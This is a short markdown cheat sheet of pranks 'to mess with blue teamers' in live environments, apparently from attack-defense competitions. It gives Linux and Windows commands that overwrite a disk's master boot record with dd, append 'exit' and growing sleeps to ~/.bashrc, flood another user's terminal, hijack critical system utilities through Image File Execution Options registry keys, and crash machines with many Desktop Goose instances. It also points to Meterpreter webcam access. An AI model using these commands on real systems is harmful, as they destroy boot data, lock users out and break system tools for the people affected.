 A small collection of tactics to mess with blue teamers in live environments...

# Linux

```shell
xrandr -o inverted # Flip X11 desktop session upside down.
tty # Retrieve TTY number (for redirection)
w   # Gives you you /dev/pts numbers

git clone https://github.com/klange/nyancat.git
cd nyancat
make
cd src
./nyancat > /dev/pts/<pts-num-of-opponent>

dd if=nyan.mbr of=/dev/sda # NyanMBR necessary, overwrites Master Boot Recrd with Nyancat animation. The MBR image can be found in this repository: https://github.com/brainsmoke/nyanmbr

echo exit >> ~/.bashrc # Add a logout to the login script

cat /dev/urandom > /dev/pts/[pts-num-of-opponent] # Fill terminal with random noise spewing out at high speed.

echo "echo \"sleep 1;\" >> ~/.bashrc">> ~/.bashrc # Add a longer sleep to their terminal startup every time they login. 

telnet towel.blinkenlights.nl > /dev/[pts-num-of-opponent]

export PROMPT_CMD="clear && echo 'You didn't say the magic word!'"
```

# Windows
```powershell
start C:\Windows\Resources\Ease of Access Themes\hc1.theme # Start the Windows high-contrast theme

reg add "HKCU\Control Panel\Mouse" /v "MouseSpeed" /t REG_SZ /d "VALUE" /f # Modify mouse speed

reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<CRITICAL SYSTEM UTILITY OF YOUR CHOICE>" /v "Debugger" /t REG_SZ /d "\"<GOOFY IMAGE FILE OR OTHER>" /z" /f # Replaces the executables with a "debugger"... or a weird image of your choosing. 

Desktop Goose 👀
```

Persistence with [[Meterpreter]] affords many options like `webcam_chat`. 

***DoS WITH GEESE***
You can download and install the [Desktop Goose](https://samperson.itch.io/desktop-goose/download/eyJleHBpcmVzIjoxNzM5NDE2Mjg0LCJpZCI6NTU4MjE4fQ%3d%3d.RdlBCXbB6sF2fBp3tD9%2f19MhrZs%3d) on Windows and Mac. Running ten or more Desktop Geese may crash the adversary's computer.
